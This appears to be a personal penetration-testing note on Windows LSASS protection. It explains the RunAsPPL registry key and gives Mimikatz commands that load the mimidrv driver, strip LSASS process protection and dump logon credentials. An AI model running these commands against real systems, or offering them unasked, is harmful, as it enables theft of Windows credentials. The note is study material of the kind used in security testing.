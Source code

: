 ```yaml
---
category: Uncategorized
tags: [pentest]
created: 2024-12-21

---
```

#mimikatz 
[LSASS](Credentials.md#LSASS)
- `lsass.exe` is a protected process. 
### Disabling lsass protection
- Microsoft made lsass.exe a protected process so that it can't be used to dump credentials.
- The lsass protection depends on the registry key `HKLM\SYSTEM\CurrentControlSet\Control\Lsa`. If the `RunASPPL` is set to `1`, lsass protection is enabled.
- Mimikatz can also be used to disable lsass protection. Requires mimidrv to access kernel level access
```powershell
# load mimidrv
!+
# remote protection
!processprotect /process:lsass.exe /remove
# dump credentials
sekurlsa::logonpasswords
```